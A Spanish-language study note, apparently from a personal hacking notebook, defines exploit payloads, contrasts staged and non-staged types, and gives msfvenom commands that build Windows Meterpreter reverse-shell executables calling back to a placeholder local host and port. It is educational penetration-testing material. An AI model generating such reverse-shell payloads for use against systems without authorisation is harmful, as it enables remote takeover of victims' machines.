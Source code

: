 --------------
- Tags: #exploiting #hacking 
----------
# Definición

> Un **payload** es un código malicioso que se inserta en un sistema o software para realizar acciones dañinas o no autorizadas. Es el componente principal de un ataque y puede incluir funcionalidades como toma de control, robo de datos o instalación de puertas traseras.

# Tipos

Existen dos tipos de **payloads**, dependiendo de si está compuesto por una única etapa o si está compuesta por múltiples.
## Payload Staged

> Este tipo de **payload** se divide en dos o más etapas, donde la primera de ellas se encarga de establecer la conexión con la máquina comprometida. Una vez establecida la conexión, a partir de la segunda etapa, el atacante envía la carga útil real del ataque. Este tipo de **payloads** se utiliza para sortear medidas de seguridad adicionales, ya que la carga útil no se envía hasta que exista una conexión segura. 
> Este tipo de payloads pueden ser personalizados de manera dinámica a través de [[Metasploit]].
## Payload Non-Staged

> Esste tipo de **payload** se envía como una única entidad solo dispone de una sola etapa. La carga útil completa se envía a la máquina comprometida en un solo paquete y se ejecuta inmediatamente después de ser recibida. Este tipo de **payloads** son más fácil de detectar por los sistemas de seguridad, ya que se envía el código malicioso de una sola vez.

# Creación de payloads

Para crear un **payload** utilizando la herramienta [[Metasploit]], podemos ejecutar el siguiente comando en bash:

```bash
msfvenom -p <tipo de payload> --platform <plataforma> -a <arquitectura> LHOST=<ip_local> LPORT=<puerto_local> -f <file> -o <output>
```

Para conseguir un **payload staged** o **non-staged para** windows, que devuelva una [[Reverse shell]], podemos ejecutar lo siguiente:

```bash
#payload staged
msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=<ip_local> LPORT=<puerto_local> -f exe -o reverse.exe
#payload non-staged
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=<ip_local> LPORT=<puerto_local> -f exe -o reverse.exe
```

La diferencia en la búsqueda consiste en el tipo de **payload**, cambiar una "/" por un "_".
